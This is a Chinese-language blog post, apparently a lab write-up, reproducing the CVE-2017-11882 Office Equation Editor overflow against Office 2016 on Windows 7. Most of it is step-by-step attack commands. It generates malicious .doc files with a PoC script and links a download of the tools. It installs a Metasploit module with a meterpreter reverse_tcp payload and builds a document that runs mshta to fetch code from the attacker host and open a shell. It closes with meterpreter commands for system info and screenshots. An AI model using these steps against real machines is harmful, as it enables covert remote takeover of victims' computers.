








# [漏洞复现] CVE-2017-11882 通杀所有 Office 版本 - ESHLkangi - 博客园

> 原文：[`www.cnblogs.com/ESHLkangi/p/9146069.html`](https://www.cnblogs.com/ESHLkangi/p/9146069.html)

此漏洞是由 Office 软件里面的 [公式编辑器] 造成的，由于编辑器进程没有对名称长度进行校验，导致缓冲区溢出，攻击者通过构造特殊的字符，可以实现任意代码执行。

举个例子，如果黑客利用这个漏洞，构造带有 shell 后门的 office 文件，当普通用户打开这个 office 文件，则电脑可以被黑客直接控制。

影响版本： 
office 2003 
office 2007 
office 2010 
office 2013 
office 2016

漏洞复现环境

Kali2017 + windows 7 + office 2016

渗透机：kali linux + POC 代码

靶机：Win 7 + Office 2016

实验所需工具和代码

链接: https://pan.baidu.com/s/1s9Br1e499ylB02urefEQKg 密码: fx6p

在 kali 新建一个文件夹 CVE-2017-11882，放进我们需要的 poc 代码



 生成 word 文档 11882.doc，打开 doc 文件之后，会弹出计算器（以此验证 offce 漏洞）

```
root@kali:~/桌面/CVE-2017-11882# python CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o 11882.doc
```


 生成 word 文档 11882-2.doc，打开 doc 文件之后，会弹出任务管理器（以此验证 offce 漏洞）

```
root@kali:~/桌面/CVE-2017-11882# python CVE-2017-11882.py -c "cmd.exe /c taskmgr.exe" -o 11882-2.doc
```


 再次查看，可以看到多了两个 doc 文件

 

 将文件拷贝到 win7 靶机上，并验证结果


使用 Word 2016 打开第一个文件-11882.doc 文件，查看效果：



成功弹出计算器。

使用 Word 2016 打开第二个文件-11882-2.doc 文件，查看效果：



成功弹出事务管理器。

可以看到，由于 Office2016 存在 CVE-2017-11882 漏洞，当打开特殊构造的 word 文件时，windows 会执行其他动作。

 在 kali linux 上构造带有 shell 后门的 word 文件，并开启监听

首先，为了后续更好的管理和使用渗透代码，可以将“shell.rb”，名称修改为“cve-2017-11886.rb”

 

 将 CVE-2017-11882.rb 拷贝到 metasploit 目录中，这里拷贝到目录**/usr/share/metasploit-framework/modules/exploits/windows/smb**

```
root@kali:~# cd /usr/share/metasploit-framework/modules/exploits/windows/smb
root@kali:/usr/share/metasploit-framework/modules/exploits/windows/smb# cp ~/桌 面/CVE-2017-11882/CVE-2017-11882.rb CVE-2017-11882.rb
```



好的，我们已经将这个 CVE-2017-11882.rb 复制过去了。

进入 Metasploit 框架，

```
root@kali:~# msfconsole 
```

搜索 CVE-2017-11882：

```
msf > search CVE-2017-11882
```


使用 CVE-2017-11882.rb 模块，开启 Meterpreter 监听会话： 

```
使用模块
msf > use exploit/windows/smb/CVE-2017-11882 设置 tcp 反弹会话
msf exploit(CVE-2017-11882) > set payload windows/meterpreter/reverse_tcp
设置渗透机 ip 地址（这里通过 ifconfig 命令查看）
msf exploit(CVE-2017-11882) > set lhost 192.168.190.130 设置路径为 11882，可自定义
msf exploit(CVE-2017-11882) > set uripath 11882 开启渗透，进入监听状态
msf exploit(CVE-2017-11882) > exploit 
```



 使用 CVE-2017-11882.py 模块，生成带有 shell 的 doc 文件：

```
root@kali:~/桌面/CVE-2017-11882# python CVE-2017-11882.py -c "mshta http://192.168.190.130:8080/11882" -o 11882-3.doc
```


此时，CVE-2017-11882 目录中增加了另外一个 word 文件 11882-3，而此文件的功能便是：打开它的电脑会反弹 shell 会话到控制机。



 将文件 11882-3.doc 拷贝到靶机 win7 上面：

 

在 Win7 打开 11882-3.doc 文件，此时观察 Win7 靶机和 Kali Linux 渗透机。

注：做这个实验之前，首先要求渗透机 Kali Linux 和靶机 Win7 能够联通，例如在我的虚拟环境中，Kali Linux 的 ip 地址是 192.168.190.130，而 Win7 的地址是 192.168.190.131，两个虚拟机采用 NAT 网卡模式。


 当靶机打开文件时，整个过程没有任何弹框，也没有其他异常动作，整个攻击效果非常“优雅”，肉鸡很难发现。

此时，在另一段的 kali linux 渗透机，已经获取到 shell 会话。


通过命令 sessions 查看 meterpreter 会话：

```
msf exploit(CVE-2017-11882) > sessions
```


 此后便可以通过 meterpreter 来对会话进行管理：

```
进入会话
msf exploit(CVE-2017-11882) > sessions 1 查看系统信息  
meterpreter > sysinfo 
查看当前用户  
meterpreter > getuid  
截屏  
meterpreter > screenshot
```


 可以看到，安装了最新 office 2016 版本的 win7，因为 CVE-2017-1182 漏洞，当打开带有 shell 后门的 doc 文件是，kali 渗透机可以获取到完美的后门并控制 win7

 实验操作根据拼客院长陈鑫杰的实验进行复现的 https://zhuanlan.zhihu.com/p/35248996